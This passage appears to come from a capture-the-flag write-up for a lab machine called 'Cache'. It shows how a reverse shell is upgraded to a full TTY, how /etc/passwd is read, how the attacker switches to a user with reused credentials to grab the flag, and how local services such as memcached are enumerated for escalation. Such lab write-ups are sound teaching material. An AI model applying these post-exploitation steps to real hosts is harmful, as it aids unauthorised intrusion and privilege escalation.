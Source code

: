 For proper shell

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z ( runs the reverse shell in background )
$ stty raw -echo
$ fg [and press enter twice. Forwards the background running process]

```

# Inside the machine

There are two non root user entries in the /etc/passwd file.

```bash
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
```

ash is familiar as we had used that in the first step. Lets try to login with that credentials. We get the shell and the user flag.

```bash
luffy@cache:/home$ su ash
Password: 
ash@cache:/home$ cat /home/ash/user.txt 
d52e2************************f1e
```

I enumerated the machine so that I could escalate to root from this user but could not find anything. So we need to escalate horizontally to the user luffy .

## Horizontal Escalation

If we look at the port in which the machine is listening into

```bash
www-data@cache:/$ ss -tunlp
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128             127.0.0.1:11211          0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   0        128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*
```

3306 is MySQL which is for webapp. We can see 11211

Lets view running process

```bash
www-data@cache:/$ ps -aux | grep 11211
memcache   946  0.0  0.1 425792  4044 ?        Ssl  12:15   0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
www-data  3365  0.0  0.0  11464  1096 pts/1    S+   12:57   0:00 grep 11211 
```

